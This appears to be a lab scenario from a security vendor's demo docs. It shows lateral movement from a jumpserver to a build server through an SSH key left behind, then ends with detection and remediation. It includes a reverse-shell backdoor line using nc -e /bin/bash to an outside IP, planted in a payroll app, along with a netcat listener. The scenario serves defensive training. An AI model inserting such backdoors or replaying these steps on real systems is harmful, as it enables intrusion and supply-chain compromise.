

# Multi-Machine Lateral Movement

This scenario shows an attacker gaining access to a public-facing server outside of the cluster, and using it to connect to a more restricted build environment.

## Pre-requisites

This scenario requires two machines to be set up outside the Kubernetes cluster using the install script. To begin, you will need the IP address and SSH key to access the first server (or "jumpserver").

## Running the Exploit

There are two machines in this scenario: a "jumpserver" and a build server (`buildbox`). The build server is supposed to be restricted, and can only be accessed from machines within the same account. To use the build server for publishing new versions of private images, developers first connect to a public-facing jumpserver using SSH. From there, they can connect to the build server.

In this scenario, we start as the attacker, who has just acquired the SSH key for the jumpserver. Let's start by connecting to the machine.

```sh
ssh -i ~/path/to/jumpserver/key JUMPSERVER_USER@JUMPSERVER_IP
```

Now, take a look at the history:

```sh
history
```
```
    1  ls -la
    2  hostname
    3  systemctl status sshd.service 
    4  ls .ssh/
    5  ssh-keygen
    6  cat .ssh/buildbox_id.pub 
    7  ssh -i ~/.ssh/buildbox_id root@203.0.113.45
    8  history
```

The developers used the SSH key `buildbox_id` to access the build server. It also looks like the SSH key is still present:

```sh
ls ~/.ssh
```
```
authorized_keys  buildbox_id
```

So now, we can connect to the build server:

```sh
# note: use the command that appeared in your history for a valid user/IP
ssh -i ~/.ssh/buildbox_id root@203.0.113.45
```

If we look at the history, we can see some of the old packages that were built here:

```sh
history
```
```
    1  git clone git@github.com:example/build.git 
    2  cd build
    3  make push-container
    4  cd ..
    5  rm -rf build
    6  git clone git@github.com:example/payroll-app.git 
    7  cd payroll-app
    8  make build
    9  make push-container
   10  cd payroll-app
   11  git pull
   12  make push-container
   13  history
   14  ls ~/.ssh
   15  ls ~/payroll-app/
   16  cat payroll-app/Makefile 
   17  history
```

Given the build server is fetching private code using SSH, we could use the SSH keys here to log in to GitHub and view the company's repositories:

```sh
ls ~/.ssh/
```
```
authorized_keys  github-login
```

Instead, let's take a look at the `payroll-app` directory to get some more details about how the new version deployment process is handled:

```sh
ls ~/payroll-app/
```
```sh
cat payroll-app/Makefile
```

Given the access on this machine, we could edit the `payroll-app` package to add a backdoor that we could access, and then push a new version of the package.

As an example, let's install netcat for setting up a reverse shell:

```sh
sudo yum install nmap-ncat
```

And validate that we can use `nc`:

```sh
nc --version
```

Then, we can edit the payroll app to give us the backdoor, such as connecting to this machine with a reverse shell.

```py
# file: payroll-app/payroll-calc.py
# ...
import os; os.system("nc 203.0.113.45 2222 -e /bin/bash")
```

For this demo, the buildbox is not actually set up to generate new images, but at this point is where we would build the new image, start a listening server, and wait for someone to deploy the backdoor:

```sh
nc -l -p 2222
```

To see a full supply-chain exploitation and how Spyderbat detects it, visit the [supply chain attack demo](../supply_chain/).

## Investigation


In the Spyderbat Console, navigate to the Dashboard page to begin our investigation. In the Security tab, under "Recent Spydertraces with Score > 50", a new trace should appear, likely named "interactive_ssh_from_[IP_ADDRESS]", or "suspicious_crud_command_cat". Select these Spydertraces, and select "Start Process Investigation" to see the events of the exploit laid out in a Causal Tree in the investigation view:



Your view should look similar to the trace above. If it does not, make sure you selected a Spydertrace object from both machines on the dashboard page. If you are still missing details, click the "Add Next X Objects" button on some of the traces listed in the records table next to the graph:


From this graph, we can easily see that the attacker is installing unexpected packages and running suspicious commands like `nc`. We can also see that the attacker's access came from the machine on the right, which we know is the jumpserver. If we select the `vim` process, we can also see that the Payroll app was modified by the command arguments in the details pane:


## Next Steps

Now that we know the attacker's method of access and persistence method, we can take steps to remediate:

- rotate both machines' SSH keys
- remove the backdoor from the payroll-prod system.
- remove netcat from the build system

## Further Reading

- [Supply Chain Attack Scenario](../supply_chain/)
- [End-to-End Demo Scenario](../end_to_end/)
